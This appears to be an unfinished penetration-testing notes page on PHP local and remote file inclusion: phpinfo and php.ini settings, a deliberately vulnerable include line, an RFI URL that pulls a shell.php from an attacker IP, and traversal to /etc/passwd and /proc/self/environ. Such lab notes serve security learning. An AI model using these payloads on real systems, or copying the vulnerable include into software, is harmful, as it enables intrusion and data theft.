 ## PHPINFO() <a href="#phpinfo" id="phpinfo"></a>

```
file_uploads	On	On
```

to be updated - please get in contact to help complete

Useful information can be extracted from this page. Settings have been set in the loaded php.ini file.

Look for `register_globals` and `allow_url` - can allow LFI and RFI attacks.

Remember you may have to add a null byte %00 e.g. $website/../../etc/passwd%00

## php.ini <a href="#php-ini" id="php-ini"></a>

RFI works only when the following is set in the php.ini file

```
allow_url_fopen = On allow_url_include = On
```

```
=exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ ini_file,show_source
```

can be used if this is found on the phpinfo() page

```
disable_functions    no value
```

If there is a bit of code that include the following, this allowed RFI,

```
<?php include($_REQUEST["urlConfig"]); ?>
```

```
eghttp://10.10.106.72/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.5.219/shell.php
```

## File Inclusion (LFI) <a href="#file-inclusion-lfi" id="file-inclusion-lfi"></a>

To check if website is vulnerable write ../ in after the parameter like this `http://$ip/index.php?id=../` and if you got \[function.include] then the website may be vulnerable.

### `proc/self/environ` <a href="#proc-self-environ" id="proc-self-environ"></a>

So after getting the error remove ../ and replace with it /etc/passwd like `http://$ip/index.php?id=/etc/passwd` if you got another \[function.include] then add **../** until you got many text ( http headers ) then the site is vulnerable so after you find the passwd file we have to replace **`/etc/passwd`** it to be `/proc/self/environ`so the url will be something like this `http://$ip/index.php?id=/proc/self/environ`
